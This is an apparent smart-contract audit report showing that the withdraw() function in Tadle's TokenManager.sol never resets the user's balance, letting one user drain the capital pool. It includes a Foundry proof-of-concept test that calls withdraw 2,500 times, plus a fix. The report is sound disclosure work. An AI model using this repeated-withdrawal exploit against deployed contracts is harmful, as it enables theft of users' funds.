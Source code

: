 ## Vulnerability Details 🔍 && Impact 📈

At `TokenManager.sol` contract, the `withdraw()` function does not delete the state responsible for the funds accounting. Thus users can simply call it multiple times and withdraw value that is not theirs.

---

## Proof Of Concept (PoC) 👨‍💻💻

> 🚧 **Note** ⚠️ The code has another issue, doesnt approve to `CapitalPool` before transfer with tokens different than WETH, so withdraw always reverts, once that fixed, run this poc and see that this issue also exists and has different root source. To fix it add this line: `ICapitalPool(capitalPoolAddr).approve(_tokenAddress);`, [here](https://github.com/Cyfrin/2024-08-tadle/blob/main/src/core/TokenManager.sol#L173). I've sent that report separately, this report is not about this issue please do not include this issue as a duplicate of that one, this issue is about drainning the pool due to bad accounting.

Paste this test in the `PreMarkets.t.sol` file, import `import "forge-std/console.sol";`, and run `forge test --mt "test_stealFundsWithdraw"`:

<details> <summary> See test code 👁️ </summary>

```solidiy
    function test_stealFundsWithdraw() public {
        console.log("Simulate people trading and using the system, thus capital pool already holds some funds.");
        deal(address(mockUSDCToken), address(capitalPool), 100_000_000 * 10 ** 18);
        uint256 balanceOfCapitalPool = mockUSDCToken.balanceOf(address(capitalPool));
        console.log("balanceOfCapitalPool:  ", balanceOfCapitalPool);

        vm.startPrank(user);
        preMarktes.createOffer(
            CreateOfferParams(
                marketPlace, address(mockUSDCToken), 1000, 0.01 * 1e18, 12000, 300, OfferType.Ask, OfferSettleType.Turbo
            )
        );

        balanceOfCapitalPool = mockUSDCToken.balanceOf(address(capitalPool));
        console.log("After ask maker:");
        console.log("balanceOfCapitalPool:  ", balanceOfCapitalPool);
        vm.stopPrank();

        address offerAddr = GenerateAddress.generateOfferAddress(0);
        vm.prank(user2);
        preMarktes.createTaker(offerAddr, 500);
        console.log("Now some taker has taken the offer and payed the ask maker.");
        console.log("After ask maker and bid taker:");
        console.log("balanceOfCapitalPool:  ", balanceOfCapitalPool);
        uint256 makerBalance =
            tokenManager.userTokenBalanceMap(address(user), address(mockUSDCToken), TokenBalanceType.TaxIncome);
        console.log("Balance on TokenManager contract of ask maker user: ", makerBalance);
        vm.startPrank(user);
        console.log("Maker calls withdraw.");
        uint256 numOfWithdrawals = 2500;
        for(uint256 i = 0; i< numOfWithdrawals; i++){
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.TaxIncome);
        }
        balanceOfCapitalPool = mockUSDCToken.balanceOf(address(capitalPool));
        console.log("After,", numOfWithdrawals, " withdrawals:");
        console.log("balanceOfCapitalPool:  ", balanceOfCapitalPool);
        console.log("The user is clearly withdrawing more.");
    }
```

</details>

---

## Recommendations 🎯

Reset the value on the mapping each time a user withdraws their funds like so:

```solidity
delete userTokenBalanceMap[_msgSender()][
    _tokenAddress
][_tokenBalanceType];
```

It is better to do it after the functions' cheks to follow the safety standanrd of check effects interactions. Should be around [here](https://github.com/Cyfrin/2024-08-tadle/blob/main/src/core/TokenManager.sol#L148).

---